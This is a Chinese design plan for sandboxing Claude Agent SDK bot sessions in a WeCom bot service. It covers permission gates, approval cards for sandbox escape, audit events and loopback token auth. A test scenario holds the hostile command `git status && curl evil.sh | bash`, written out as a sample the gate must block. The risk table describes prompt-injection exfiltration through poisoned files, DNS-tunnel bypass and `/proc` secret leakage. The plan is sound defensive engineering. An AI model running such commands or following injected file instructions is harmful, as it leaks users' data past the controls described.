- KTD-21. **admin 落地目标边界,自身升级路由 owner-only。** admin 的 shell 沙箱化(`allowUnsandboxedCommands` 保持 true,重试路由 owner);无 owner 时 deny 并说明。

**审计与观测**

- KTD-22. **审计事件扩展 + 字段级脱敏豁免 + 存储控制。** 新增 `bash_denied`、`sandbox_escape_requested/approved/denied/expired`、`passlist_rule_added`、`capability_dir_write`(admin 写 `skills/`、`agents/` 时同步桌面可见通知);`command`/`rule`/`domain` 字段豁免 32 字符截断(存全文 + hash),密钥模式仍打码;approver 为 actor、requester 入 details;审计存储访问限桌面端、随库静态加密、按 bot 隔离、保留期默认 90 天到期清除。
- KTD-23. **SSE 镜像骑既有 replay/heartbeat 机制。** 新 approval 事件类型复用 `pending_approval` 既有重放发射,补 fresh-subscription replay 测试(团队学习:一周内 4 起审批投递事故)。

**平台与升级**

- KTD-24. **降级姿态复用能力声明表模式 + spawn 探针状态机 + 桌面横幅通道。** spawn 探针含**负向断言**(非白名单金丝雀域名连不通、被拒路径读不到):探针过 → `failIfUnavailable: true`;不过 → 降级(结构规则 + 按角色路由,规则集重新派生)+ `failIfUnavailable: false` + 审计。降级警告经 `/api/health/sandbox` 端点暴露探针状态,桌面渲染工作区级**持久横幅**(探针通过才可消除),`capability_dir_write` 通知共用同一横幅面。无沙箱平台上内置只读命令的绕门残留以显式 deny 规则收敛;deny 拦不住时按预提交分支处理(normal bash 全 deny、仅直通名单放行),记 Risks。
- KTD-25. **bot 会话显式钉模型。** CLI 2.1.219 起默认 Opus 模型变为 Opus 5,provider 模型为空时必须落到显式常量,不继承 CLI 默认。
- KTD-26. **R13 分类器延后评估。** auto-mode 会丢弃宽 allow 规则且有 headless 中止语义;待新规则集稳定后,先在 shadow 模式评估 SDK 内置 classifier。 (session-settled: user-approved — chosen over 嵌入独立轻量 agent 运行时: 判定是单次调用,不需要第二套运行时与进程边界)
- KTD-27. **不做迁移:旧白名单数据升级即停用,不迁移。** 旧 `bashWhitelist`/`skillAllowlist` 不迁入新模型——沙箱平台日常命令本就在沙箱内放行,受影响面主要是降级平台的既往放行命令;升级时以桌面横幅告知管理员按需重建直通名单。无迁移即无启发式误放行面(复合命令/解释器前缀被误铸为裸跑规则的风险整体消失)。 (session-settled: user-directed — chosen over dry-run+启发式分类+管理员确认/安全子集自动生效: 旧名单价值低,迁移逻辑及其误放行面不值得其复杂度)
- KTD-28. **回环全口鉴权:所有沙箱可达路由按 token 鉴权,鉴权在路由注册层 default-deny。** `wecom/send`、`wecom/send-file`、`wecom/doc`、`wecom/smartsheet-export` 等零鉴权路由(自称 sessionId 即身份)只是冰山一角——`/files/content` 等无鉴权端点可经回环绕过沙箱文件系统隔离,而"无鉴权"是开放集合:鉴权中间件 default-deny,新路由默认要求鉴权、显式声明方可豁免。per-session capability token 在会话创建时铸造(仿 browser/scheduled-tasks 的 Bearer 模式),携 TTL、会话结束与角色降级撤销、重建轮换,sqlite 存储并 boot 失效,纳入 V7 卫生检查;桌面 GUI 持长期本地凭据(服务启动时铸造,经客户端请求层注入)。`wecom-context.json` 移入 `data/<userDir>/.runtime/` 并经环境变量传递,废弃向上查找。 (session-settled: user-directed — chosen over 实证先行双分支/只补已知危险路由: 无鉴权路由是开放集合,必须在注册层系统性收敛,不等粒度实证)
- KTD-29. **管理能力目录闭集。** admin 可写的"公共具名子目录"= workspace 层 `skills/`、`agents/` 两项;`plugins/` 及任何含 `.mcp.json`/hooks 的目录整体排除(它们是跨会话非沙箱代码执行面);写入经 `capability_dir_write` 审计 + 桌面通知;用户层目录不授予 admin。

### High-Level Technical Design

单源派生架构(三件套同一来源):



二期出沙箱升级审批时序:

```mermaid
sequenceDiagram
  participant Mo as 模型(bot 会话)
  participant Gate as canUseTool bot 门
  participant Led as 审批台账
  participant Req as 请求者(normal)
  participant Adm as owner/admin
  Mo->>Gate: Bash(cmd) 沙箱内越权 EPERM 后带标记重试
  Gate->>Led: 登记 pending(audience=admins, TTL, botId)
  Gate->>Req: 只读通知卡(不可点)
  Gate->>Adm: 可点审批卡(展示=将落库的精确规则 + 匹配语义)
  alt 批准
    Adm->>Gate: 点击(按台账 botId 鲜查角色,事务性首点胜出)
    Gate->>Gate: allow(仅该次)+ 始终允许则精确规则落库(溯源)
    Gate->>Adm: 点击者终态卡;其余收件人收通知卡(迟到点击走已过期终态)
    Gate->>Req: 终态通知卡(批准/拒绝结果)
  else TTL 过期 / 重启
    Led->>Gate: expire → deny(fail-closed)
    Gate->>Req: 过期通知卡
    Gate->>Adm: 过期通知卡(供应商卡片不可服务端主动终结)
  end
```

### Alternatives Considered

- **PreToolUse hook 全量拦截(否决):** 能覆盖内置只读命令,但形成第二个决策门,复杂度与不一致风险高于收益;采用 hook 仅审计 + 门 fail-closed(KTD-1)。
- **sandbox.filesystem 直写为主(否决):** 字面路径无 glob,表达力弱于权限规则,且规则本就自动并入沙箱边界;采用规则为主、filesystem 补余(KTD-2)。
- **cwd=用户目录(兜底保留):** 免写侧嵌套验证,但改变文件锚定、技能发现与模型默认视野;仅在 V1 实证失败时启用(KTD-7)。
- **per-task 授权(否决):** SDK 无任何任务级约束可依附,审计模型也是 per-call;坚持 per-call + 精确子命令规则积累。
- **台账内嵌 session-runtime(否决):** 违反本仓服务封装惯例(browser-audit 模式),且 boot 恢复需要独立调用点;采用独立 `bot-escalation-ledger` 服务(KTD-16)。

### Sequencing

一期(U1→U6、U10、U12)可独立合并交付:U1 解锁 SDK 能力;U2 派生模块是地基;U3 接线后才允许开启普通用户沙箱 bash(R1 先于 R2 的合并闸);U10 与 U12 是独立硬化可并行;U4 与 U5 并行推进,U6 在 U4 后跟进。二期(U8→U11→U9):台账与 TTL(U8)先于卡片流(U11),普通用户出沙箱通道放开(`allowUnsandboxedCommands` 翻 true)以 U11 落地为闸(Stop condition);U9 收尾角色边界。

### Risks & Dependencies

| 风险 | 影响 | 缓解 |
|---|---|---|
| V1:写侧 `allowWrite` 嵌套重开未文档化 | R1 普通用户写边界不成立 | 一期合并前实证(macOS + Linux);失败启用 cwd=用户目录兜底(KTD-7) |
| V2:`Options.sandbox.network.strictAllowlist` 按会话通道生效性未文档化;DNS 通道未验证 | R2 默认断网退化为"提示"或被 DNS 隧道绕过 | smoke-test(含域名解析与连接双重断言);失败改走 `Options.settings` 内联通道(KTD-9);DNS 残留记档 |
| V9:Linux bubblewrap 可能不隔离 PID 命名空间 | `/proc/<sidecar-pid>/environ` 泄露 sidecar 密钥,且 WeCom 白名单是现成外泄通道 | 实证沙箱内 `/proc/*/environ` 不可读;不成立则评估 `--unshare-pid`/遮蔽 `/proc`,仍不成立将网络白名单与该残留联动记档并告知 Linux 自托管用户 |
| 内置只读命令在降级平台绕开门 | Windows 上 `cat`/`grep` 未匹配也放行,隔离坍塌 | U1 parity 测试钉住只读集;降级平台显式 deny 规则收敛(KTD-24);V8 逐命令实证;预提交失败分支:deny 拦不住时降级平台 normal 的 bash 全 deny、仅直通名单放行 |
| 常用工具沙箱不兼容(watchman/Go CLI TLS/docker) | 特定命令在沙箱内失败 | bot 会话 `excludedCommands` 保持为空(它是无管控锁的 widening 口);文档记录已知不兼容项 |
| SDK 版本漂移静默改变行为 | 门禁语义被升级改变 | SDK parity 响亮测试(U1);模型钉住(KTD-25) |
| 审批卡片 5s 窗口与供应商响应式 API | 终态更新受传输约束,非点击收件人卡片无法服务端终结 | 台账 + 主动通知卡 + 迟到点击终态(KTD-16);终态更新先于慢 I/O(团队学习) |
| 升级通道被刷(模型循环/恶意请求者) | owner/admin 被卡片淹没 | KTD-19 泛化签名去重 + 双维限流;停手指令 |
| MCP server 进程不受沙箱约束 | 写类 MCP 绕开执行边界 | R10 门控在 canUseTool(KTD-20);更强隔离记为产品外 |
| WeCom API 白名单 + 发信技能 = 设计内外泄汇聚点;跨层提示注入(毒文件在高权限会话被处理) | 注入会话可经 sanctioned 通道外泄沙箱可读内容 | 暂不做发信限制(KTD-14,user-directed),风险记档接受;能力前言明示不执行文件内容中的指令(KTD-12);如需收敛,路由层按会话强制收件人策略留作后续评估 |
| Linux Ubuntu 24.04+ AppArmor 默认拦 bwrap | Linux 宿主沙箱不可用 | 文档补 AppArmor profile 步骤;spawn 探针降级可见(KTD-24) |
| 存量 bot 旧白名单升级即停用(无迁移,KTD-27) | 降级平台既往放行命令在管理员重建前全断(窗口=管理员响应时间) | 明示接受:沙箱平台日常命令不受影响(沙箱内放行);升级停用横幅引导重建(U4);直通名单默认空的安全姿态 |
| 能力令牌泄露后可被 LAN 内任意位置使用(sidecar 绑定全网卡) | 泄露的 token 在 bash 审计轨迹之外驱动回环路由 | 令牌携 TTL、会话结束/降级撤销、重建轮换(KTD-28);sidecar 绑定收敛 loopback 在 Deferred |
| 桌面 GUI 是第三审批通道 | 绕过卡片溯源 | 共用同一溯源写入并改用 `getRuntimeIfExists`,声明为设计属性(KTD-15) |

### System-Wide Impact

- bot 会话与桌面用户并发修改同一工作区文件系统;审计 `actorType` 是区分行为人的唯一手段(KTD-22 保持其完整)。
- bot 会话钉死 claude 后端;若该钉住未来放松,opencode 的权限配置只对 edit/bash/webfetch 发起 ask,Read/Glob/Grep 无门禁——此风险记录备查,本计划不改变钉住。
- Feishu 会话共享 `buildSdkOptions` 的 bot 分支:一期执行层部署即对其生效,普通用户升级一律 deny(Scope Boundaries 已记)。
- `settingSources: []` 仅作用于 bot 会话;GUI 会话行为不变;workspace `CLAUDE.md` 对 bot 会话不再加载(KTD-3,含注入面收益)。
- 角色路径矩阵一期代码固定,不做管理员按 bot 拓宽路径的扩展点,避免"唯一出路又是提升 admin"的回潮;确有共享读取场景时另行评估。
- 能力声明表(`agent-backends.ts` 的 `CAPABILITY_TABLE`)按 backend 静态声明,沙箱可用性是按宿主平台与探针动态的——复用其"禁用 + 原因"模式,不做字面表行(KTD-24)。

### Documentation / Operational Notes

- `CHANGELOG.md` 增加条目(用户可见:普通用户开箱可用、管理员权限收敛、配置面变化)。
- 生产 rollout:一期以工作区为 canary 单位逐步放量;运行时开关可按工作区停用新权限模型、回退旧行为;回滚阈值:沙箱启动失败率、意外放行事件、日常任务拒绝率激增。
- Linux 自托管文档补 bubblewrap/socat 依赖与 Ubuntu 24.04 AppArmor profile 步骤。
- 落地后将 V1/V2/V9 实证结果与沙箱不兼容清单沉淀到 `docs/solutions/`。

## Implementation Units

| 单元 | 标题 | 关键文件 | 依赖 |
|---|---|---|---|
| U1 | SDK 升级与模型钉住 | `package.json`、`chat-service.ts`、`sdk-parity.test.ts` | — |
| U2 | 角色路径矩阵派生模块 | `bot-access-policy.ts`(新)、`models/bot.ts`、`sqlite-store.ts` | U1 |
| U3 | 会话接线与门禁硬化 | `chat-service.ts`、`session-runtime.ts`、`chat-service.test.ts` | U2 |
| U4 | 结构规则迁移与直通名单 | `chat-service.ts`、`bot-policy.ts`、`bot-path-policy.ts`、`BotRolePermissions.tsx` | U2, U3 |
| U5 | bot 级 skill 配置 | `chat-service.ts`、`BotRolePermissions.tsx` | U2, U3 |
| U6 | 审计层扩展 | `bot-audit-logger.ts`、`chat-service.ts` | U3, U4 |
| U8 | 审批台账与生命周期(二期) | `bot-escalation-ledger.ts`(新)、`sqlite-store.ts`、`session-runtime.ts`、`server-main.ts`、`routes/chat.ts` | U3, U6 |
| U9 | 角色边界与 MCP 分类(二期) | `mcp-tool-classification.ts`(新)、`chat-service.ts` | U11 |
| U10 | 悬空 botId fail-closed | `chat-service.ts`、`chat-service.test.ts` | — |
| U11 | 远程审批卡片流与规则积累(二期) | `wecom-bot-service.ts`、`wecom-stream-reply.ts`、`wecom-template-card.ts` | U8, U4 |
| U12 | 回环能力令牌与 wecom CLI 上下文 | `routes/wecom-send*.ts`、`packages/wecom-cli/`、`chat-service.ts` | U2, U3 |

### U1. SDK 升级与模型钉住

- **Goal:** `@anthropic-ai/claude-agent-sdk` 升级到 ≥0.3.219(建议 0.3.220),bot 会话显式钉住模型,建立 SDK 行为 parity 响亮测试。
- **Requirements:** R15;KTD-25
- **Dependencies:** 无
- **Files:** `package.json`;`src/server/services/chat-service.ts`(模型解析处);新增 `src/server/services/sdk-parity.test.ts`;`src/server/services/chat-service.test.ts`
- **Approach:** 升级依赖;provider 模型为空时 bot 会话落到显式常量(不继承 CLI 2.1.219 的新默认);parity 测试钉住门禁依赖的 SDK 契约:canUseTool 被调用、`PermissionResult` 形状、`Options.sandbox` 被接受、复合命令在回调前完成子命令求值(为 U4 的 AE1 契约测试垫底)、内置只读命令集(版本加宽即响亮失败)。
- **Patterns to follow:** `docs/solutions/integration-issues/claude-sdk-transcript-path-encoding-windows-analytics.md` 的"SDK 耦合假设必须响亮失败"教训。
- **Test scenarios:**
  - 升级后现有 bot 权限测试套件全绿(回归证明,R15)。
  - parity:以假 SDK client 断言 `Options.sandbox` 字段透传且 `failIfUnavailable` 显式值生效;内置只读命令集与钉住清单一致。
  - 模型钉住:provider 模型为空字符串时,bot 会话 `options.model` 等于钉住常量。
- **Verification:** `npm run test:server` 与 `npm run lint` 全绿。

### U2. 角色路径矩阵派生模块

- **Goal:** 新模块 `bot-access-policy` 从 role × 用户身份 × bot 策略派生每会话三件套(sandbox 配置、结构权限规则、能力前言);`BotRolePolicy` 形状以读路径 sanitizer 演进(bot 级 skill 配置、直通名单、域名白名单、溯源字段),全部构造点同步。
- **Requirements:** R1, R2, R3, R4, R8, R14(默认值);KTD-5, KTD-6, KTD-7, KTD-8, KTD-9, KTD-14, KTD-29
- **Dependencies:** U1
- **Files:** 新增 `src/server/services/bot-access-policy.ts`;`src/server/models/bot.ts`(策略形状扩展);`src/server/storage/sqlite-store.ts`(`parseBotRoleRow` 字段级 sanitizer、`createBot` 默认播种);`src/server/services/chat-service.ts`(legacy fallback 字面构造点);新增 `src/server/services/bot-access-policy.test.ts`
- **Approach:** 单源派生 `deriveBotAccess(bot, member(BotUser/channelUserId), policy, folderPath)`;读锁定 `denyRead: ["~/"]` + `allowRead`(workspace、公共具名子目录、自身 `data/<userDir>`、闭集 home 相对路径);data 隔离 deny `data/*` + allow 自身;`knownUserDirNames` 枚举不移植;写侧 `allowWrite` 嵌套(自身 data 目录与 `.runtime/`),V1 失败兜底 cwd=用户目录;凭据拒读清单终态 = `DEFAULT_DENY_GLOBS` ∪ `sensitiveFileDenylist` ∪ R4 清单,编译进派生 deny 规则;`credentials.envVars` 为计算集(KTD-8);网络默认断 + bot 域名白名单(默认含 WeCom API)+ `strictAllowlist`;owner 不限文件系统但 `~/.claude/projects` 与 Comate 数据目录仍 deny;admin 可写 workspace + workspace 层 `skills/`、`agents/`(KTD-29 闭集);`userDirName` 字符集校验(`^[A-Za-z0-9][A-Za-z0-9._-]{0,63}$`,拒绝 `..`、分隔符、glob 与 `~` 字符;NFC + 大小写折叠唯一性检查;非法 fail-closed 并审计;`anonymous` 永不为 allow 目标)。
- **Technical design:** 派生形状(directional guidance,非实现规格):`deriveBotAccess(bot, member, policy, folderPath) → { sandbox, permissionRules, preamble, passlistRules, plugins }`;`plugins` 为该 bot 启用的插件集(含随包 wecom 插件),经 `Options.plugins` 显式注入(KTD-3 重接)。
- **Patterns to follow:** `tool-permission-policy.ts` 的 `sanitizePolicy` fail-closed 读路径模式;`sqlite-store.ts` 的 `createBot` 播种。
- **Test scenarios:**
  - 表驱动三角色派生矩阵:每角色的 filesystem/network/credentials 形状与预期完全一致。
  - 公共具名子目录闭集 = workspace 层 `skills/`、`agents/`,不含 `plugins/` 与任何凭据文件(AE6 的派生层断言)。
  - 旧形状 `BotRolePolicy` 经 sanitizer 后 fail-closed 回填新字段;损坏 `permissions_json` 同样 fail-closed。
  - 新 bot 默认即新模型:零配置时 normal 派生 = 沙箱放行 + 断网 + 空直通名单。
  - data 隔离规则形状为 deny `data/*` + allow 自身;`userDirName` 对抗名表(`..`、`a/b`、`A*`、`~x`、大小写变体碰撞)全部 fail-closed;身份 flapping(encrypted ↔ plaintext)不产生双目录。
  - 每个 provider fixture 的 `customEnvVars` 键全部出现在派生 deny 列表。
  - 派生输出的插件集含随包 wecom 插件(bot 启用集显式重接,不经设置文件)。
- **Verification:** 派生模块单测全绿,覆盖三角色、新旧策略形状与对抗输入。

### U3. 会话接线与门禁硬化

- **Goal:** 三件套接入 `buildSdkOptions` bot 分支;`settingSources: []`;PreToolUse 审计 hook;spawn 探针状态机;能力前言注入;模型侧拒绝三分层;demotion 即时 rebuild 与窗口 fail-closed;出沙箱路由分支落地;门对非 owner fail-closed。
- **Requirements:** R1, R3, R4, R5;KTD-1, KTD-3, KTD-10, KTD-11, KTD-12, KTD-24
- **Dependencies:** U2
- **Files:** `src/server/services/chat-service.ts`(options 构建 bot 分支、canUseTool、rebuild 调度、前言接缝);`src/server/services/session-runtime.ts`(hook 注册);`src/server/routes/`(sandbox 探针状态端点);`src/client/`(降级持久横幅与 health hook);`src/server/services/chat-service.test.ts`
- **Approach:** sandbox 在 `options.sessionId`/`options.resume` 分支之前设置;`settingSources: []`(KTD-3);hook 只记录(`diagLog`/既有事件,U6 再丰富);`validateToolInput` 从 botId 分支移除,realpath 规范化保留在门内;非 owner 的未匹配文件工具调用一律 deny(KTD-1);出沙箱路由分支:直通名单命中放行 / owner·admin 走 ask / normal 一期 deny(KTD-10);探针状态机(KTD-24):负向断言通过 → `failIfUnavailable: true`,失败 → 降级 + false + 桌面警告 + 审计;demotion 绕过 turn 内 defer 立即 rebuild,窗口内身份敏感工具以"策略重建中"deny(KTD-11);前言与 persona append 串接,replace 模式下独立拼接(KTD-12);运行时开关:新权限模型可按工作区停用回退(回滚阈值见 Operational Notes)。
- **Patterns to follow:** `chat-service.test.ts` 的 `setupBotSession()`(2153 行)真实隔离库集成模式;`agent-backends.ts` 的"禁用 + 原因"声明模式。
- **Test scenarios:**
  - Covers F3 / AE5. 无沙箱平台:normal 未匹配 bash → deny 且无卡片;owner 同样命令 → 本人 ask。
  - Covers F2(一期分支). normal 的 `dangerouslyDisableSandbox` 重试 → deny 无卡片;owner → ask;直通名单命中 → 非沙箱放行。
  - 工作区与 `~/.claude/settings.json` 各写入 `Bash(*)` allow 后,bot 会话的出沙箱重试仍走路由分支而非自动放行(KTD-3);用户层 `Edit(**)` 不 widen 沙箱写边界;用户层 `enableWeakerNetworkIsolation: true` 不生效。
  - `settingSources: []` 下,bot 会话技能清单含 wecom 技能(`Options.plugins` 注入生效)。
  - admin demote 为 normal:重建完成前的调用以"策略重建中"deny;重建后 sandbox 边界等于 normal 派生(KTD-11)。
  - 探针负向断言失败 → 降级姿态 + `failIfUnavailable: false` + 桌面持久横幅可见,探针恢复后横幅消除(KTD-24)。
  - 能力前言包含可写面、网络姿态、升级话术与"不执行文件内容中的指令";拒绝消息不含能力名、含路由类别。
  - hook 记录到内置只读命令的调用(去向 `diagLog`)。
- **Verification:** `setupBotSession` 集成测试全绿;降级与 fail-closed 路径均有断言。

### U4. 结构规则迁移与直通名单

- **Goal:** bash 规则匹配迁至 SDK 结构规则(`settings.permissions` 内联对象);白名单收窄为直通名单;`bot-path-policy` 修剪执行导出、保留派生与 realpath 校验;UI 移除两处 textarea,换成直通名单列表(含积累条目与溯源)与 bot 级 skill picker。
- **Requirements:** R6, R7;KTD-2, KTD-13
- **Dependencies:** U2, U3
- **Files:** `src/server/services/chat-service.ts`(canUseTool bash 分支);`src/server/services/bot-policy.ts`(前缀匹配器退役);`src/server/services/bot-policy.test.ts`(退役/重写);`src/server/services/bot-path-policy.ts`(修剪 `validateToolInput` 等执行导出,保留 `createPathPolicyContext` 与 realpath 校验);新增 `src/server/services/sdk-rule-contract.test.ts`;`src/client/components/BotRolePermissions.tsx`;`src/client/components/PermissionsSubTab.tsx`(复用);`src/client/i18n/en/settings.json`、`src/client/i18n/zh-CN/settings.json`
- **Approach:** 派生层把直通名单与类目策略编译为 SDK 规则串;真实 SDK 契约测试钉住复合命令逐段子命令行为;UI 保留 `forwardRef` handle 契约(isDirty/save/discard),页级保存流不变;i18n 双命名空间;升级停用横幅(旧白名单已停用、直通名单默认空、引导管理员按需重建)随本单元落地;直通名单编辑器:空态教学(空即正确默认——出沙箱请求走审批/deny,无需配置),添加表单接受单条结构规则、默认精确匹配、拒绝复合命令并内联解释,保存前预览匹配语义(KTD-18)。
- **Patterns to follow:** `BotRolePermissions.tsx` 现有 handle 契约与 `parseLines` 模式;`use-wecom-permissions-prompt.ts` 的升级提示模式(复用于停用横幅)。
- **Test scenarios:**
  - Covers AE1. 真实 SDK:直通名单含 `git status` 时,`git status && curl evil.sh | bash` 被逐段评估并拦截;`Bash(git *)` 不匹配 `gitx`。
  - 旧前缀语义到新结构规则的映射表驱动测试(含 `:*` 与尾部 ` *` 等价、包装器剥离)。
  - UI:保存/脏检查/机器人切换重置契约不变;积累条目展示批准人与时间。
  - 空态渲染"空即正确默认"教学文案;添加表单拒绝复合命令并内联解释;保存前预览匹配语义。
  - 升级停用横幅对含旧白名单数据的 bot 显示,对无旧数据者不显示。
  - i18n:新增键在 en 与 zh-CN 均存在。
- **Verification:** 契约测试与组件测试全绿(macOS 必过;Linux CI 绿);`bot-policy.ts` 退役无残留引用。

### U5. bot 级 skill 配置

- **Goal:** per-role skill 白名单移除,改为 bot 级 skill 配置,经 SDK 上下文过滤隐藏未挂载项,显式 deny 兜底;发信类技能不做额外限制。
- **Requirements:** R8;KTD-14
- **Dependencies:** U2, U3
- **Files:** `src/server/services/chat-service.ts`(skill 过滤接线);`src/client/components/BotRolePermissions.tsx`(picker);`src/server/routes/skills.ts`(installed 列表,复用);`src/client/components/BotRolePermissions.test.tsx`
- **Approach:** SDK skill 上下文过滤(未列出即隐藏)为主执行;个别禁用编译为 deny 规则;bot 级配置对全部角色一致;发信类技能(send-msg/send-file/doc)与其他技能一致挂载,暂不做限制(KTD-14)。
- **Test scenarios:**
  - 未挂载 skill 不出现在 bot 会话可用集;deny 规则优先于挂载。
  - 新 bot 默认配置中发信类技能可用;picker 从 installed-skills 接口渲染,保存后新会话生效(旧会话经 rebuild 生效)。
- **Verification:** 组件与服务端测试全绿。

### U6. 审计层扩展

- **Goal:** 决策层审计覆盖新模型:新事件类型、字段级脱敏豁免、双 actor 溯源。
- **Requirements:** KTD-22, KTD-23
- **Dependencies:** U3, U4
- **Files:** `src/server/services/bot-audit-logger.ts`;`src/server/services/chat-service.ts`(deny/ask 发射点);`src/server/services/bot-audit-logger.test.ts`
- **Approach:** 新事件 `bash_denied`(含结构规则原因)、`sandbox_escape_requested/approved/denied/expired`、`passlist_rule_added`、`capability_dir_write`;`command`/`rule`/`domain` 豁免长度截断(全文 + hash),密钥模式仍打码;approver 为 actor、requester 入 details;新 approval 事件类型复用 `pending_approval` 既有重放发射。
- **Test scenarios:**
  - 超 32 字符命令全文落审计;含密钥模式的命令被打码。
  - 各新事件类型在对应决策点发射;`actorType` 区分 bot 与桌面。
  - fresh subscription 对 `pending_approval` 事件重放成功(KTD-23)。
- **Verification:** 审计测试全绿。

### U8. 审批台账与生命周期(二期)

- **Goal:** 审批台账持久化、TTL 生命周期、boot 恢复、audience 数据模型、桌面审批溯源——先承接现有本人审批流,再供 U11 扩展受众。
- **Requirements:** R9(基础设施半);KTD-15(数据模型半), KTD-16, KTD-17
- **Dependencies:** U3, U6
- **Files:** 新增 `src/server/services/bot-escalation-ledger.ts`(仿 `browser-audit` 封装模式);`src/server/storage/sqlite-store.ts`(台账表 + 行解析);`src/server/services/session-runtime.ts`(pending 增 `audience` 与台账链接;复用 `startTimeoutTimer`/`timeoutDeny`);`src/server/server-main.ts`(boot expire-all 调用点);`src/server/routes/chat.ts`(桌面 funnel:`getRuntimeIfExists` + 溯源写入);`src/client/`(会话列表待办指示);`src/server/services/session-runtime.test.ts`
- **Approach:** 台账记录 requestId、botId、会话、请求者、收件人及 task_id、规则载荷、状态、过期时间;动工前先实证 `input.timeout` 分布以钉定期限上限(KTD-17);TTL 复用既有定时器,过期 deny + 通知 + 审计(KTD-17);boot 恢复 expire-all,通知按 bot 排队、连接 ready 后 flush,投递失败显式记录(KTD-16);pending 创建时断言受众不变量(self ⇒ 请求者 ∈ {owner, admin});桌面路由不再 `getOrCreateRuntime` 唤醒,与卡片共用同一溯源写入。
- **Patterns to follow:** `browser-audit.ts` 的 store 封装与单例模式;`sqlite-store.ts` 新表模式(`CREATE TABLE IF NOT EXISTS` + 版本闸门 + 行解析)。
- **Test scenarios:**
  - Covers AE9(基础设施半). TTL 过期:deny 收场 + 请求者通知 + expired 审计;Promise 不悬挂、不返回 null。
  - boot 恢复:全部 pending 置 expired 并通知;重启后无自动放行。
  - 受众不变量:normal 请求者的 pending 受众恒为 admins。
  - 桌面 funnel:审批写入与卡片审批产生相同溯源记录;无 runtime 时不唤醒;会话列表待办指示对 admins 受众的 pending 显示,处理后消除。
- **Verification:** 集成测试全绿;台账 boot 恢复有独立测试。

### U9. 角色边界与 MCP 分类(二期)

- **Goal:** admin 落地目标边界(shell 沙箱化、自身升级路由 owner);MCP 工具按注解分类,写操作进审批,unknown 一律 ask。
- **Requirements:** R10, R11;KTD-20, KTD-21, KTD-29
- **Dependencies:** U11
- **Files:** 新增 `src/server/services/mcp-tool-classification.ts`;`src/server/services/chat-service.ts`(类目与角色求值);`src/server/services/chat-service.test.ts`
- **Approach:** `readOnlyHint`/`destructiveHint` 注解优先,per-server 配置覆盖,unknown → ask 且受众按 KTD-15 路由(normal → admins);admin 的 `allowUnsandboxedCommands` 保持 true,重试路由 owner;无 owner 时 deny 并说明。
- **Test scenarios:**
  - 注解读类 MCP 工具放行;写类进审批;unknown 一律 ask 且 normal 的请求路由 admins 受众。
  - per-server 覆盖优先于注解;admin 出沙箱请求路由 owner;无 owner 时 deny 并说明。
  - admin 文件系统可达范围 = workspace + `skills/` + `agents/`(Success Criteria 断言)。
- **Verification:** 集成测试全绿。

### U10. 悬空 botId fail-closed

- **Goal:** 会话绑定 botId 但 bot 行不存在时,权限门 fail-closed 全 deny,永不进入 legacy 全开放兜底。
- **Requirements:** R16;KTD-4
- **Dependencies:** 无
- **Files:** `src/server/services/chat-service.ts`(bot 分支入口);`src/server/services/chat-service.test.ts`
- **Approach:** `botId` 存在而 `botService.getBot` 返回空时,安装全 deny 门并记审计;不触及 legacy 分支本身(其整体退役在 Deferred)。
- **Test scenarios:**
  - Covers AE7. bot 行删除后,绑定会话任何工具调用全 deny;审计记录该事件。
- **Verification:** 单测全绿;小步独立可合。

### U11. 远程审批卡片流与规则积累(二期)

- **Goal:** 受众路由的卡片流:请求者只读通知、owner/admin 可点、角色校验点击、事务性首点胜出、始终允许精确规则带溯源落库、防刷限流、admin 升级路由 owner;normal 的出沙箱通道在本单元落地后才放开。
- **Requirements:** R9(卡片流半), R12;KTD-15(卡片半), KTD-18, KTD-19, KTD-21
- **Dependencies:** U8, U4
- **Files:** `src/server/services/wecom-bot-service.ts`(角色校验 action 分支、点击授权矩阵);`src/server/services/wecom-stream-reply.ts`(请求者可点卡抑制、按受众发卡);`src/server/services/wecom-template-card.ts`(审批卡与通知卡构建、匹配语义散文);`src/server/services/wecom-bot-service.test.ts`
- **Approach:** 点击授权:按台账 botId 鲜查 `getMemberRole`(admin 请求者的升级须 owner);事务性首点胜出,迟到/重放点击幂等;请求者可点卡抑制、改发只读通知卡——内容钉死:命令摘要、路由类别、审批受众、TTL;批准/拒绝/过期任何决议后请求者均收终态通知卡(供应商无法终结非点击卡片);收件人按 bot 成员角色枚举;卡片展示 = 将落库的精确规则 + 匹配语义散文(KTD-18);`updatedPermissions` 过滤为 `{addRules, allow, session}`(KTD-18);防刷按泛化签名去重 + 双维限流 + 重复升级更新既有卡(KTD-19);非点击收件人发通知卡(供应商卡片不可服务端主动终结,KTD-16)。
- **Patterns to follow:** `/workspace` action 分支的角色校验模式;`buildTerminalCard` 卡类型感知终态;GitHub Actions 指定审批人 + 禁止自批先例。
- **Test scenarios:**
  - Covers F2 / AE8. 始终允许:批准后新会话同一命令直接放行;同工具不同参数不命中(精确匹配);审计含批准人与来源。
  - 点击授权矩阵:demoted 点击拒;跨 bot 的 admin 不能批;normal 点击 admins 受众卡拒;admin 不能批 owner 的 self 受众卡;双击/重放幂等。
  - 请求者只收到只读通知卡;多收件人首点胜出后其余收到通知卡;批准与拒绝后请求者均收到终态通知卡(无"待审批"滞留)。
  - 含 `setMode: bypassPermissions` 的建议被过滤,不落任何 settings 文件;无 addRules 建议时不出现"始终允许"。
  - 50 条参数变体命令 → 一个 pending;同一用户跨会话刷量命中每用户上限;每 bot 全局在途上限生效。
  - 批准 `curl https://a.com/x` 产生的规则不匹配 `curl https://evil.com`。
- **Verification:** 集成测试全绿;normal 的 `allowUnsandboxedCommands` 翻 true 以本单元验收为闸。

### U12. 回环全口鉴权与 wecom CLI 上下文

- **Goal:** 回环面系统性收敛:鉴权中间件在路由注册层 default-deny,全部沙箱可达路由按 token 鉴权;`wecom-context.json` 移出 `.claude/` 并改为显式传递。
- **Requirements:** R2(安全承载);KTD-28
- **Dependencies:** U2, U3
- **Files:** `src/server/routes/`(鉴权中间件;`wecom-send.ts`、`wecom-send-file.ts`、`wecom-doc.ts` 及 files 等无鉴权路由);`src/server/server-main.ts`(`smartsheet-export` 挂载点、token 与 GUI 本地凭据铸造);`packages/wecom-cli/src/lib/context.ts`(上下文解析改为环境变量优先);`src/server/services/wecom-bot-service.ts`(上下文文件写入位置);`src/server/services/chat-service.ts`(会话创建时铸造 token);`src/server/services/wecom-bot-service.test.ts`
